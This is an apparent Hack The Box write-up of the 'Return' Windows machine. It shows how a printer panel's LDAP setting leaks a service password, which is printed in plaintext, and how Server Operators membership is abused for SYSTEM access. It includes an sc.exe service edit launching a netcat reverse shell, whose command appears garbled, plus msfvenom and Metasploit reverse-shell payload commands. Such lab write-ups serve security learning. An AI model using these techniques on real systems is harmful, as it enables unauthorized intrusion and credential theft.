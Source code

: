 ```yaml
---
title: "Return Walkthrough: Exploiting Printer Misconfigurations"
date: 2024-11-24 19:00:00 +0530
categories: [Capture the Flags, Windows]
tags: [HTB,ldap,on-prem,privesc_backup]   
description: "Walkthrough of HTB's Return machine"
---
```


## Initial Recon

### NMAP Scan:

I began by scanning for interesting TCP ports to identify potential entry points:

```bash
> open_tcp_ports=$(sudo nmap -T5 -sS -n -Pn --disable-arp-ping -p- 10.10.11.108 --max-retries 0 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
> nmap -A -p $open_tcp_ports 10.10.11.42
```

**TCP scan results:**

```bash
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain?       syn-ack ttl 127
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-11-25 15:37:38Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49679/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49682/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49694/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
62633/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

No interesting information found in the UDP Scan results

### HTTP Recon

Accessing port 80 displays a web page labeled 'HTB Printer Admin Panel.
![image.png](assets/img/Return/image%201.png)

Most available sections, such as 'Fax' and 'Troubleshooting,' are static, but the 'Settings' page includes an intriguing form with fields for the server address, port, username, and password, as shown below.
![image.png](assets/img/Return/image%202.png)

When I submitted the form, I observed that only the IP address field was forwarded to the server. Modifying the username and password fields did not result in any changes to the request.
![image.png](assets/img/Return/image%203.png)

Further research revealed interesting information
Printers can use LDAP (Lightweight Directory Access Protocol) to query the Active Directory for user details, such as email addresses, usernames, and group memberships. This allows features like:

- Sending scanned documents to a user’s email directly.
- Displaying a list of users for specific authentication or tracking purposes.

For this to work, the printer needs LDAP credentials (often a service account like svc-printer) to bind to AD and perform queries.

I modified the IP address to point to my machine and set up a Netcat listener to intercept the data submitted by the form possibly revealing the password.
![image.png](assets/img/Return/image%204.png)

The incoming request revealed interesting information, which indeed appears to be a password.

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 389                                                                   
listening on [any] 389 ...
connect to [10.10.16.30] from (UNKNOWN) [10.10.11.108] 63453
0*`%return\svc-printer�
                       1edFg43012!!      
```

### SMB Recon

To validate the enumerated credentials, I used  netexec to enumerate SMB shares. The results confirmed that the credentials are valid, with the user having interesting 'READ' and 'WRITE' privileges on certain shares.
![image.png](assets/img/Return/image.png)

## Remote Access Using Compromised Credentials

I attempted to log in to the machine using the compromised credentials, as shown below:
![image.png](assets/img/Return/image%206.png)

Navigating to the Users directory reveals two users: svc-printer and Administrator
![image.png](assets/img/Return/image%205.png)

Accessing "user.txt" on the svc-printer's desktop reveals fiest flag.

## Privilege Escation to SYSTEM

### Method - 1

Enumerating privileges of "svc-printer" using *whoami* command
![image.png](assets/img/Return/image%207.png)

Since the user has the Backup privilege enabled. Uploading the necessary module to leverage this privilege for replication.
![image.png](assets/img/Return/image%208.png)

Using robocopy to copy the Administrator’s desktop files to a temporary folder.
![image.png](assets/img/Return/image%209.png)

Followed by accessing root.txt

### Method - 2

Since the user belongs to the "Server Operators" group, which has the ability to start and stop system services,  leveraged this privilege to gain a reverse shell. Using evil-winrm, we uploaded Netcat to the "Return" machine and modified the service configuration to execute a reverse shell command:

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config vss binPath="C:[SC] ChangeServiceConfig SUCCESS4.exe -e cmd.exe 10.10.16.5 4444"
```

Stopping and restarting the service to trigger the reverse shell

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop vss
[SC] ControlService FAILED 1062:

The service has not been started.

*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start vss
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

However, the obtained shell terminated after a few seconds. To resolve this issue, I proceeded to upload a Meterpreter shell for further exploitation.

Generated meterpreter reverse shell executable payload file using msfvenom
```bash
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.5 LPORT=8888 -f exe > payload.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

Configuring Metasploit listener to listen on 8888

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.16.5
LHOST => 10.10.16.5
msf6 exploit(multi/handler) > set LPORT 8888
LPORT => 8888
```

The same issue was observed when using the Metasploit Framework; the reverse shell terminated after a few seconds.

![image.png](assets/img/Return/image%2010.png)

To stabilize the session, I migrated the process to a more suitable one using the migrate <pid> command.

![image.png](assets/img/Return/image%2011.png)

Spawning the shell

![image.png](assets/img/Return/image%2012.png)

## Disclaimer

*The techniques and tools discussed in this walkthrough are intended solely for educational purposes and to help improve cybersecurity awareness. Please conduct any penetration testing activities only on systems that you own or have explicit permission to test. Unauthorized access to computer systems is illegal and punishable by law. The author does not take responsibility for any misuse of the information provided*